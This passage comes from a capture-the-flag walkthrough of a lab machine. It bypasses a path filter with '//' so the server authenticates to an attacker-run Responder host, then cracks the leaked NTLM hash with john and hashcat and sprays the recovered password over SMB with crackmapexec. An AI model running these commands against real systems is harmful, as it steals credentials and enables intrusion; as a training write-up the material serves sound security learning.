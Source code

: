 We can see that it's filtering stuffs like `..` and `filter` for path traversal attacks. We can also see that it's blocking the user from reading `htaccess` file. `\\` is also filtered to prevent hash stealing attacking using `responder`. But **Windows also allows the use of `//`** instead of `\\`. So, we'll set up our own `responder` server - 
```bash
sudo responder -I tun0 -v
```

and then request `/index.php?view=//10.10.16.16/dir/file` - 
```bash
curl -i -k -s http://school.flight.htb/index.php?view=//10.10.16.16/dir/file
```

Just like we thought, we captured a NTLM hash on our `responder` -

![Captured hash of svc_apache](Images/apache_hash.png)

which can be cracked using tools like `john` or `hashcat`. 
```john
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

```hashcat
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```

After a few minutes of hash cracking, we should get the password of user *svc_apache* 


# Password Spraying
Now that we have the credentials of a user, we could start enumerating **SMB**. There're plenty of tools we can choose here. For this machine, I'll use `crackmapexec` -
```crackmapexec
crackmapexec smb -u svc_apache -p 'S@Ss!K@*t13' -d 'flight.htb' 10.10.11.187 --shares
```

![Using crackmapexec as svc_apache](Images/apache_smb.png)
